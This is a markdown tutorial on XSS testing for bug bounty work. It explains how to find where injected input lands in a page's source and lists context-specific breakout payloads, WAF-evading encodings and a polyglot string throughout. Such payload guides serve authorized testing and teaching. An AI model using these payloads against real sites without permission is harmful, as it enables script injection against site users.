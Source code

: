 # 🔍 How to Analyze Payload Execution in Page Source (Bug Bounty XSS/SSRF etc.)

## ✅ Step-by-Step Process:

### 1. Inject a Safe Test Payload
Use a harmless marker or XSS test string:
```html
vgodXSS123
```
Or:
```html
"><svg/onload=alert(1)>
```

### 2. Open Page Source or DevTools
- Right click → "View Page Source" (`Ctrl+U`)
- Or press `F12` → go to **Elements** tab for dynamic content

### 3. Search for Your Payload
Use `Ctrl+F` to find `vgodXSS123` or your payload in:
- Raw HTML source
- DOM elements (for JS-injected content)

---

## 🧬 Analyze Contexts (Know Where Your Payload Lands)

### 🔹 Context 1: Inside HTML Body
```html
<p>Hello vgodXSS123</p>
```
✅ Try breaking tags:
```html
</p><script>alert(1)</script>
```

---

### 🔹 Context 2: Inside an Attribute
```html
<img src="vgodXSS123">
```
➡️ Break out of quotes:
```html
" onerror=alert(1) x="
```

---

### 🔹 Context 3: Inside JavaScript Variable
```html
<script>var user = "vgodXSS123";</script>
```
➡️ Break string:
```js
";alert(1);//
```

---

### 🔹 Context 4: Inside HTML Comment
```html
<!-- vgodXSS123 -->
```
🟥 Cannot execute — try moving outside comment block.

---

### 🔹 Context 5: Inside Input Value
```html
<input value="vgodXSS123">
```
➡️ Use:
```html
" autofocus onfocus=alert(1) x="
```

---

### 🔹 Context 6: Script Block (JSON / JS)
```html
<script>
var data = {"user":"vgodXSS123"}
</script>
```
➡️ Try breaking with:
```js
"};alert(1);//
```

---

## 🔐 Watch for WAF/Filter Encoding
If you see:
- `<` → `&lt;`, `\u003C`, `%3C`
- `"` → `&quot;`, `\u0022`

Then:
➡️ WAF is encoding payloads → use:
```html
&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;
```

Or try **double encoding**:
```html
%253Cscript%253Ealert(1)%253C/script%253E
```

---

## 🔁 Dynamic Injection? Check DOM!
If your payload doesn’t appear in view-source:
- Open `F12` → Elements tab
- Look for JS rendering or innerHTML injection

---

## 💡 Tips
- Use `alert(document.domain)` instead of `alert(1)`
- Use `Burp Collaborator` or `interact.sh` to detect blind hits
- Try polyglot payloads:
```html
"><svg/onload=confirm`vgod`>//
```

---

## 🧠 Summary

| Location                  | Payload Strategy                         |
|---------------------------|------------------------------------------|
| In HTML body              | Close tags + inject script               |
| In attribute              | Break quote + onerror                    |
| In JS variable            | Break string + inject JS                 |
| In input value            | Add JS events like `onfocus`, `oninput`  |
| In comment                | Try to escape or find another reflection |

---

> ✅ You’re not just injecting — you’re understanding **where and how** your input is rendered. Once you know the context, you choose the right bypass payload.
